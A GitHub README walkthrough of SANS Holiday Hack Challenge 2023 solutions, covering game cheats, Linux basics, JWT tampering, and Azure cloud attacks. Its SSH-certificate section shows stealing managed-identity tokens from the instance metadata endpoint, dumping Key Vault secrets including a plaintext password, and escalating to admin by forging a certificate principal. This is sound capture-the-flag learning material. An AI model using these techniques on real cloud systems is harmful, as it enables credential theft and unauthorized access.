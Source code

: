# S~~ANS~~ Holiday-Hack-Challenge-2023
 
<img width="800" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/d051e195-083b-431e-903d-cc42be8bcb79">  

   | Christmas Island | 
   |     :---:      |
   | [Orientation]( )   |
   | [Frosty's Beach](https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/blob/main/README.md#christmas-island-frostys-beach)      |
   | Santa's Surf Shack      |
   | Rudolph's Rest Resort     |
   | Resort Lobby     |

## Christmas Island: Orientation
### Holiday Hack Orientation
Difficulty: 🎄

Talk to Jingle Ringford on Christmas Island and get your bearings at Geese Islands

<details>
<img width="477" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/f446a59b-8aec-4e4f-9a3d-7220f1fc2821">

### Items Gathered
![image](https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/4147c58c-cb62-4135-80d1-ece769d27c12) <b> Fishing Pole - Just a humble rod and reel. Perfect for catching all manner of aquatic life. </b>
</details>

## Christmas Island: Frosty's beach

Hints: Synthesis is the True Ending
From: Santa
The AI revolution has begun. Some of the most prominent and useful tools born from the advent of powerful AI include ChatGPT, PlayHT, Midjourney, Dall-E 3, Bing AI, and Bard, and Grok.

### Snowball Fight
Difficulty: 🎄🎄

Visit Christmas Island and talk to Morcel Nougat about this great new game. Team up with another player and show Morcel how to win against Santa!

<details>
<summary>Solution</summary>
Elves and Santa got you down? Unlock a secret weapon hidden in the game's code: a dwarf named Jared (yes, really) ready to bring the pain!

Here's the cheat code:

Hack the mainframe: Open your dev tools console and flip the 'singlePlayer' switch to 'true'. Think of it as inviting a bearded buddy to your party.
Cue the epic entrance: Prepare for a glorious fanfare as Jared makes his debut, complete with a custom sound effect and toast notification.
Unleash the dwarf power: With Jared on your team, even Santa's belly will jiggle with fear. Those elves won't know what hit them!
Remember: Keep it in the same browser window – no need to open new tabs for this hack.

Get ready to rumble, because this dwarf is about to bring the blizzard!

### Code Analysis:
The code appears to introduce a character (Elf the dwarf, jokingly referred to as Jared) into the game when in single-player mode.First, a sound effect named 'elf_the_dwarf_is_here' is played if audio is enabled. Next, a toast message appears on the screen saying "Elf the dwarf has joined your team!" for a short duration. Finally, a new game sprite named 'jaredSprite' is created at a specific position. All indicating we need the Dwarf.

View the source code of the game 
<img width="739" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/53a6d875-2c45-47e0-bf53-4788b72f4158">

```
 // Check if it's single-player mode
    // jared ... I mean Elf the dwarf joins the fight when in single player mode
       if (singlePlayer === 'true') {
          setTimeout(() => {
            if (isaudio) {
              gameSceneObject.sound.play('elf_the_dwarf_is_here', { volume: 0.5 });
            }
            toastManager.showToast("Elf the dwarf has joined your team!", duration=500, delay=5000);
            jaredSprite = gameSceneObject.physics.add.sprite(starting_pos.x + 150, starting_pos.y, 'jaredSprite');
```
### Working towards Victory: 
We have to change singlePlayer parameter to true and reload game. 
> [!IMPORTANT]
> Do not play this game in a seperate tab or windows of your browser you have to complete this challenge in the same page with the help of developer tools console.

> https://hhc23-snowball.holidayhackchallenge.com/room/?username=<>&roomId=201e0e461&roomType=public&gameType=co-op&id=18fed30a-a96a-47c2-a697-86c6d3a4b0bb&dna=<>&singlePlayer=false

 <img width="1000" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/3fed0b55-4771-43a1-9045-076875fe1719">

##### Steps:
1. Open Developer console and change the frame to the game room
   
<img width="241" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/634c5fa8-78d0-4b6b-9a04-d4b4a50280cd">

2. Choose play game with random players and once the game room loads check the current loaded URL "window.location.href"
   
3. Use the below javascript which changes the "SinglePlayer" parameter to true and loads the frame again.
  
4. Now you have Dwarf the elf on your team. Playing the game is made easier.

````
// Get the current URL
var url = new URL(window.location.href);

// Update the 'singlePlayer' parameter to 'true'
url.searchParams.set('singlePlayer', 'true');

// Reload the frame with the modified URL
window.location.href = url.href;
````
</details>

## Christmas Island: Frosty's beach

### Linux 101
Difficulty: 🎄🎄
Visit Ginger Breddie in Santa's Shack on Christmas Island to help him with some basic Linux tasks. It's in the southwest corner of Frosty's Beach.

Dust off your Linux beard and let's work on the festive tasks frenzy! 

<details>
<summary>Solution</summary>
 
````
Perform a directory listing of your home directory to find a troll and retrieve a present!
_________________________________________________________________________________________________
elf@5338c71bd631:~$ ls
HELP  troll_19315479765589239  workshop
````
````
Now find the troll inside the troll.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ cat troll_19315479765589239 
troll_24187022596776786
````
````
Great, now remove the troll in your home directory.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ rm troll_19315479765589239
````
````
Print the present working directory using a command.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ pwd
/home/elf
````
````
Good job but it looks like another troll hid itself in your home directory. Find the hidden troll!
_________________________________________________________________________________________________
elf@5338c71bd631:~$ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .profile  .troll_5074624024543078  HELP  workshop
````
````
Now find troll in your command history
_________________________________________________________________________________________________
elf@5338c71bd631:~$ history
````
````
Find the troll in your environment variables.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ env
````
````
Next, head into the workshop.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ cd workshop/
````
````
A troll is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the troll is in.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop$ grep -i "troll" ~/workshop/*
grep: /home/elf/workshop/electrical: Is a directory
/home/elf/workshop/toolbox_191.txt:tRoLl.4056180441832623
````
````
A troll is blocking the present_engine from starting. Run the present_engine binary to retrieve this troll.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop$ ls -l  | grep *present*
-r--r--r-- 1 elf elf 4990336 Dec  2 22:19 present_engine
elf@5338c71bd631:~/workshop$ chmod +x present_engine 
elf@5338c71bd631:~/workshop$ ls -l  | grep *present*
-r-xr-xr-x 1 elf elf 4990336 Dec  2 22:19 present_engine
elf@5338c71bd631:~/workshop$ ./present_engine 
troll.898906189498077
````
````
Trolls have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop$ cd electrical
elf@5338c71bd631:~/workshop/electrical$ ls
blown_fuse0
elf@5338c71bd631:~/workshop/electrical$ mv blown_fuse0 fuse0
elf@5338c71bd631:~/workshop/electrical$ ls
fuse0
````
````
Now, make a symbolic link (symlink) named fuse1 that points to fuse0
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop/electrical$ ln -s fuse0 fuse1
elf@5338c71bd631:~/workshop/electrical$ ls
fuse0  fuse1
````
````
Make a copy of fuse1 named fuse2.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop/electrical$ cp fuse1 fuse2
elf@5338c71bd631:~/workshop/electrical$ ls
fuse0  fuse1  fuse2
````
````
We need to make sure trolls don't come back. Add the characters "TROLL_REPELLENT" into the file fuse2.
_________________________________________________________________________________________________
[elf@5338c71bd631:~/workshop/electrical$ nano fuse2
````
````
Find the troll somewhere in /opt/troll_den.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ find /opt/troll_den/ -iname '*troll*'
````
````
Find the file somewhere in /opt/troll_den that is owned by the user troll.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ find /opt/troll_den -type f -user troll
````
````
Find the file created by trolls that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/troll_den.
_________________________________________________________________________________________________
find /opt/troll_den  -size +108k -size -110k
````
````
List the process running
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
init           1  0.0  0.0  20112 16296 pts/0    Ss+  05:39   0:00 /usr/bin/python3 /usr/local/bin/tmuxp load ./mysession.yaml
elf        14636  0.1  0.1  31520 26736 pts/2    S+   06:04   0:00 /usr/bin/python3 /14516_troll
elf        15593  0.0  0.0   7672  3236 pts/3    R+   06:05   0:00 ps aux
````

````
The 14516_troll process is listening on a TCP port. Use a command to have the only listening port display to the screen.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ netstat -tuln
````
````
The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last troll.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ curl 0.0.0.0:54321
````
````
Your final task is to stop the 14516_troll process to collect the remaining presents.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ kill 14636
````
${\color{pink}Congratulations, you caught all the trolls and retrieved all the presents!
Type "exit" to close...}$

</details>

## Christmas Island: Rudolph's Resort
### Reportinator
Difficulty: 🎄🎄

How well do you know your pentest reports?

<details>
<summary>Solution</summary>
Noel Boetie used ChatNPT to write a pentest report. Go to Christmas Island and help him clean it up.
Reportinator

Ho ho ho! This report's got vulnerabilities listed like Santa's Naughty & Nice. Reading through is always good, but wouldn't a clever trick be nice? There's another way to solve this puzzle, so sharpen your coding elf ears and listen up!

### Technique
There is a POST request with payload data for the 9 questions asked where 1 indicates false and 0 indicates true. With the help of Burpsuite we will first intercept the request and then pass it over to Intruder which would help with all the probable combinations for the correct answer.

#### Steps
1. Load the reportinator webpage and click on submit review directly. You will observe a POST request sent to https://hhc23-reportinator-dot-holidayhack2023.ue.r.appspot.com/check as below

   <img width="359" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/9b70534a-2edc-4f71-af70-a0d7e33613fa">

2. Add payload marker to the value of the parameter input as below. Choose Clusterbomb attack [Check all permutation of payload combination] now fill all the 9 payload set with our combination of 0 and 1.

   <img width="506" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/022888ba-fe19-4c1c-b5bd-8cab0e0021fb">

3. Lauch the attack and observe one of the response will have 200 response status code.

   <img width="547" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/3f5e3ac8-7754-4867-afea-b4734deda8eb">

4. Now work the combination on the report and get the task completed.

</details>

Noel Boetie says "Great job on completing that challenge! Ever thought about how your newfound skills might come into play later on? Keep that mind sharp, and remember, today's victories are tomorrow's strategies!"

It truly does help you later 🤯

### Azure 101
Difficulty: 🎄🎄

Help Sparkle Redberry with some Azure command line skills. Find the elf and the terminal on Christmas Island.

> [!TIP]
> Azure CLI Reference
> 
> From: Sparkle Redberry
> 
> Terminal: Azure 101
> 
> The Azure CLI tools come with a builtin help system, but Microsoft also provides this handy [cheatsheet](https://learn.microsoft.com/en-us/cli/azure/reference-index?view=azure-cli-latest.

Before you get too comfy, why not give your Azure CLI skills a festive brush-up? 

<details>
<summary>Solution</summary>

````
 You may not know this but the Azure cli help messages are very easy to access. First, try typing:
$ az help | less
````
````
Next, you've already been configured with credentials. Use 'az' and your 'account' to 'show' your current details and make sure to pipe to less ( | less )
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az account -h list
The client 'f17559a4-d8a2-4661-ba0f-c04f8cf2926d' with object id '8deacb33-214d-4d94-9ab4-d27768410f17' does not have authorization to perform action 'Microsoft.Compute/virtualMachines/read' over scope '/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64' or the scope is invalid. If access was recently granted, please refresh your credentials.
````
````
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az account alias show
````
````
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az group list
[
  {
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1",
    "location": "eastus",
    "managedBy": null,
    "name": "northpole-rg1",
    "properties": {
      "provisioningState": "Succeeded"
    },
    "tags": {}
  },
  {
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg2",
    "location": "westus",
    "managedBy": null,
    "name": "northpole-rg2",
    "properties": {
      "provisioningState": "Succeeded"
    },
    "tags": {}
  }
]
````
````
Ok, now use one of the resource groups to get a list of function apps. For more information:
https://learn.microsoft.com/en-us/cli/azure/functionapp?view=azure-cli-latest
Note: Some of the information returned from this command relates to other cloud assets used by Santa and his elves.
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az functionapp list  -g northpole-rg1 | less

[
  {
    "appServicePlanId": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/nor
thpole-rg1/providers/Microsoft.Web/serverfarms/EastUSLinuxDynamicPlan",
    "availabilityState": "Normal",
    "clientAffinityEnabled": false,
    "clientCertEnabled": false,
    "clientCertExclusionPaths": null,
    "clientCertMode": "Required",
    "cloningInfo": null,
    "containerSize": 0,
    "customDomainVerificationId": "201F74B099FA881DB9368A26C8E8B8BB8B9AF75BF450AF717502AC151F59
DBEA",
    "dailyMemoryTimeQuota": 0,
   ** "defaultHostName": "northpole-ssh-certs-fa.azurewebsites.net",**
    "enabled": true,
    "enabledHostNames": [
     ** "northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "extendedLocation": null,
    "hostNameSslStates": [
      {......................................
        }
    ],
    "hostNames": [
     ** "northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "hostNamesDisabled": false,
    "hostingEnvironmentProfile": null,
    "httpsOnly": false,
    "hyperV": false,
    **"id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/pro
viders/Microsoft.Web/sites/northpole-ssh-certs-fa",**
    "identity": {
      "principalId": "d3be48a8-0702-407c-89af-0319780a2aea",
      "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
      "type": "SystemAssigned",
      "userAssignedIdentities": null
    },
    "inProgressOperationId": null,
    "isDefaultContainer": null,
    "isXenon": false,
    "keyVaultReferenceIdentity": "SystemAssigned",
    "kind": "functionapp,linux",
    "lastModifiedTimeUtc": "2023-11-09T14:43:01.183333",
    "location": "East US",
    "maxNumberOfWorkers": null,
    "name": "northpole-ssh-certs-fa",
    "outboundIpAddresses": "",
    "possibleOutboundIpAddresses": "",
    "publicNetworkAccess": null,
    "redundancyMode": "None",
   ** "repositorySiteName": "northpole-ssh-certs-fa",**
    "reserved": true,
    "resourceGroup": "northpole-rg1",
    "scmSiteAlsoStopped": false,
    "siteConfig": {
      "acrUseManagedIdentityCreds": false,
      "acrUserManagedIdentityId": null,
      "alwaysOn": false,
      "antivirusScanEnabled": null,
      "apiDefinition": null,
      "apiManagementConfig": null,
      "appCommandLine": null,
      "appSettings": null,
      .
      .
      .
      .
      .
      .
      },
    "slotSwapStatus": null,
    "state": "Running",
    "storageAccountRequired": false,
    "suspendedTill": null,
    "tags": {
      **"create-cert-func-url-path": "/api/create-cert?code=candy-cane-twirl",**
      "project": "northpole-ssh-certs"
    },
    "targetSwapSlot": null,
    "trafficManagerHostNames": null,
    "type": "Microsoft.Web/sites",
    "usageState": "Normal",
    "virtualNetworkSubnetId": null,
    "vnetContentShareEnabled": false,
    "vnetImagePullEnabled": false,
    "vnetRouteAllEnabled": false
  }
]
````
````
Find a way to list the only VM in one of the resource groups you have access to.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm?view=azure-cli-latest
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az vm list -g northpole-rg2 | less

[
  {
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg2/providers/Microsoft.Compute/virtualMachines/NP-VM1",
    "location": "eastus",
    "name": "NP-VM1",
    "properties": {
      "hardwareProfile": {
        "vmSize": "Standard_D2s_v3"
      },
      "provisioningState": "Succeeded",
      "storageProfile": {
        "imageReference": {
          "offer": "UbuntuServer",
          "publisher": "Canonical",
          "sku": "16.04-LTS",
          "version": "latest"
        },
        "osDisk": {
          "caching": "ReadWrite",
          "createOption": "FromImage",
          "managedDisk": {
            "storageAccountType": "Standard_LRS"
          },
          "name": "VM1_OsDisk_1"
        }
      },
      "vmId": "e5f16214-18be-4a31-9ebb-2be3a55cfcf7"
    },
    "resourceGroup": "northpole-rg2",
````
````
Find a way to invoke a run-command against the only Virtual Machine (VM) so you can RunShellScript and get a directory listing to reveal a file on the Azure VM.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm/run-command?view=azure-cli-latest#az-vm-run-command-invoke
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az vm run-command invoke -g northpole-rg2 -n NP-VM1 --command-id RunShellScript --scripts 'ls'
{
  "value": [
    {
      "code": "ComponentStatus/StdOut/succeeded",
      "displayStatus": "Provisioning succeeded",
      "level": "Info",
      "message": "bin\netc\nhome\njinglebells\nlib\nlib64\nusr\n",
      "time": 1705438837
    },
    {
      "code": "ComponentStatus/StdErr/succeeded",
      "displayStatus": "Provisioning succeeded",
      "level": "Info",
      "message": "",
      "time": 1705438837
    }
  ]
}
````
${\color{green}Great,you did it all!}$
</details>

## Christmas Island: Resort Lobby
> [!TIP]
> Remember: Pepper Minstix "After you complete all the challenges, come back here for a surprise!"

## Pixel Island: 

### Elf Hunt
Difficulty: 🎄🎄🎄

Piney Sappington needs a lesson in JSON web tokens. Hack Elf Hunt and score 75 points.

> [!TIP]
> JWT Secrets Revealed
> 
> From: Piney Sappington
> 
> Terminal: Elf Hunt
> 
> Unlock the mysteries of JWTs with insights from PortSwigger's JWT Guide.

<details>
<summary>Solution</summary>

JWT Decode and hack! Shortcut or deep dive? Both paths welcome, single-tab battleground, awaits!

## Intended Way
1. Lauch developer console and naviagate to Apllication tab which reveals a cookie for doamin https://elfhunt.org named "ElfHunt_JWT" 
2. Copy the JWT Cookie and navigate to https://token.dev/ when decoded reveals "speed: -500". modify the speddy to -50 and copy the modified JWT token.

### Before Modifying
<img width="668" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/f218cdac-14bb-4726-8635-978aa3adf9f3">

### After modifying
<img width="656" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/c71f2210-c789-46e8-b80b-60e9b6c103b4">

3. Go to developer console --> Application --> Cookies --> https://elfhunt.org.
4. Right click edit value and paste the new token.
5. Since all of this have to be done within the same tab. After modifying the token Go to developer console --> select elfhung.org and then type window.location.reload(); which will reload the iframe where hte game is loaded.

<img width="501" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/e210d1c5-e58d-4223-949e-685145377944">

6. Now observe the elves are moving very slow which makes it easy to shoot and score above 75.
7. Upon wining the challenge we get a note which belongs to Alabaster Snowball 
   
   <img width="339" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/81cf67de-301f-4db7-b3ee-d308474ab458">

## Alternative Way

On the source code of the elf challenge we can see that there is a variable called score. If the score is 75 or higher, it updates the sessionJWT and stores it in a cookie. It pauses the game scene. So let's set the score as 80 and we win the game.

<img width="834" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/3537280c-5134-4f16-b28c-049f4121b315">


</details>

### Certificate SSHenanigans
Difficulty: 🎄🎄🎄🎄🎄

Go to Pixel Island and review Alabaster Snowball's new SSH certificate configuration and Azure [Function App](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl) . What type of cookie cache is Alabaster planning to implement?

Certifiably Secure & Slightly Shell-arious. A Whimsical Intro to Secure Shell Certificates
Speaker(s): Thomas Bouve
A practical introduction to secure shell certificates and how to upgrade your existing SSH server configuration.
[Click here to watch this talk!](https://www.youtube.com/watch?v=4S0Rniyidt4)

<details>
<summary>Solution</summary>

The tasks gives an idea on how to use SSH certificate to authenticate to a remote server.

Alabaster introduces his gleaming Azure server at ssh-server-vm.santaworkshopgeeseislands.org. Inspired by ChatNPT's ingenious suggestion to upgrade using SSH certificates, Alabaster is eager to share the magic. 

${\color{green}"Generate a certificate," he suggests, "use the monitor account to access the host, and let me know if my TODO list is within reach."}$
 
1. Let's create a SSH certificate from the machine which would use to access the server.
   
   <img width="441" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/f4ed0c57-b6c0-498a-9f84-c87a1812dead">


2. Now copy the public key contents and paste it in https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl. The certificate will be signed and response would have the signed pub key.

<img width="687" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/e6ebc809-4564-4ca3-a6e7-e08a3ad4e852">


3. Copy only the necessary portion of the certificate highlighted in blue and now update your exisiting certificate using the new signed pub key.

<img width="950" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/0698166a-fa23-4564-9de6-593bdb47262a">

4. Now SSH to the remote server with the private key using the monitor account.

````
   ┌──(kali㉿kali)-[~/SSHenanigans]
└─$ ssh -i moni monitor@ssh-server-vm.santaworkshopgeeseislands.org 
monitor@ssh-server-vm:~$ whoami
monitor
````
5. The below hint shows that we have to gather information using the Azure Web/Function App deployed in the server hence let's start with that.

> [!TIP]
> Azure Function App Source Code
> From: Alabaster Snowball
> Objective: Certificate SSHenanigans
> The [get-source-control](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control?view=rest-appservice-2022-03-01) Azure REST API endpoint provides details about where an Azure Web App or Function App is deployed from.

6. One  of our previous Task "Azure 101" we found a function app so that could be a good start. 

````
elf@8db4fd157ccd:~$ az functionapp list  -g northpole-rg1 | less

[
  {
    "appServicePlanId": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/nor
thpole-rg1/providers/Microsoft.Web/serverfarms/EastUSLinuxDynamicPlan",
    "availabilityState": "Normal",
    "clientAffinityEnabled": false,
    "clientCertEnabled": false,
    "clientCertExclusionPaths": null,
    "clientCertMode": "Required",
    "cloningInfo": null,
    "containerSize": 0,
    "customDomainVerificationId": "201F74B099FA881DB9368A26C8E8B8BB8B9AF75BF450AF717502AC151F59
DBEA",
    "dailyMemoryTimeQuota": 0,
   **"defaultHostName": "northpole-ssh-certs-fa.azurewebsites.net",**
    "enabled": true,
    "enabledHostNames": [
     **"northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "extendedLocation": null,
    "hostNameSslStates": [
      {......................................
        }
    ],
    "hostNames": [
     **"northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "hostNamesDisabled": false,
    "hostingEnvironmentProfile": null,
    "httpsOnly": false,
    "hyperV": false,
    **"id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/pro
viders/Microsoft.Web/sites/northpole-ssh-certs-fa",**
    "identity": {
      "principalId": "d3be48a8-0702-407c-89af-0319780a2aea",
      "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
      "type": "SystemAssigned",
      "userAssignedIdentities": null
    },
````

7. Since AZI CLI is not in the host we use CURL and it retured me an error that the authorization header is missing.
  The header should look like: "Authorization: Bearer <your-access-token>"

````    
monitor@ssh-server-vm:/home$ curl -X GET "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   115  100   115    0     0    603      0 --:--:-- --:--:-- --:--:--   602
{
  "error": {
    "code": "AuthenticationFailed",
    "message": "Authentication failed. The 'Authorization' header is missing."
  }
}
````

Reference: 
https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token#get-a-token-using-curl

````
monitor@ssh-server-vm:/home$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq
{
  "access_token": "eyJ0eXAiOiJKV1Q******************cig",
  "client_id": "b84e06d3-aba1-4bcc-9626-2e0d76cba2ce",
  "expires_in": "84827",
  "expires_on": "1705609969",
  "ext_expires_in": "86399",
  "not_before": "1705523269",
  "resource": "https://management.azure.com/",
  "token_type": "Bearer"
}
````
8. For ease the token has been assigned to a variable az_token and the curl request was sent again, we see a github repo url over there.

````
monitor@ssh-server-vm:/home$ curl -X GET "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01" \
-H "Authorization: Bearer $az_token" | jq
 ````

9. After reading throught the python file the Key vault got me curious and let's find the vault URL probably that's were the TODO List lies. We have the Vault URL by running below command

Reveals Vault URL
````
monitor@ssh-server-vm:/usr$ curl -H "Authorization: Bearer $az_token" -X GET "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults?api-version=2019-09-01" | jq
````
Generate a token for vault.azure.net to access content in Vault URL
````
monitor@ssh-server-vm:~$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq
````
Reveals Secret path
````
monitor@ssh-server-vm:~$ curl -H "Authorization: Bearer $az_vault" -X GET "https://northpole-it-kv.vault.azure.net/secrets?api-version=2016-10-01" | jq
````
Reveals secrets in the Vault 
````
monitor@ssh-server-vm:~$ curl -H "Authorization: Bearer $az_vault" -X GET "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=2016-10-01" | jq
````

Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru

************ The END this lead me no where for now ***************************************************************

Let's relook again what to do to get the TODO List 🤨

10. I had a look at the function app python code and got curious about "principal". The video of Thomas Bouve gives information about principals and that got me to verify that alabaster has pricipal as admin and monitor has prinicipal as elf. So we have to create a SSH certificate with principal as elf.  

````
monitor@ssh-server-vm:/etc/ssh/auth_principals$ ls
alabaster  monitor
monitor@ssh-server-vm:/etc/ssh/auth_principals$ cat alabaster 
admin
monitor@ssh-server-vm:/etc/ssh/auth_principals$ cat monitor
elf
````
11. Revisiting the [portal](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl) and looked at the response which had a parameter "principal". How about we try the "principal" as admin in the request and see if the response shows the principal as admin.

<img width="740" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/35022dca-21be-4430-83de-90ba915a695f">

Sure, it did now we have a SSH certificate with admin principal so we can SSH as alabaster into the host ssh-server-vm.santaworkshopgeeseislands.org.

12. Modify the exisiting public key with the newly generated public key and SSH into the server as alabaster. List the content in home directory and finally we have the TODO List.

````
 ┌──(kali㉿kali)-[~/SSHenanigans]
└─$ ssh -i moni alabaster@ssh-server-vm.santaworkshopgeeseislands.org
alabaster@ssh-server-vm:~$ 
````
````
┌──(kali㉿kali)-[~/SSHenanigans]
└─$ ssh -i moni alabaster@ssh-server-vm.santaworkshopgeeseislands.org
alabaster@ssh-server-vm:~$ ls
alabaster_todo.md  impacket
alabaster@ssh-server-vm:~$ cat alabaster_todo.md 
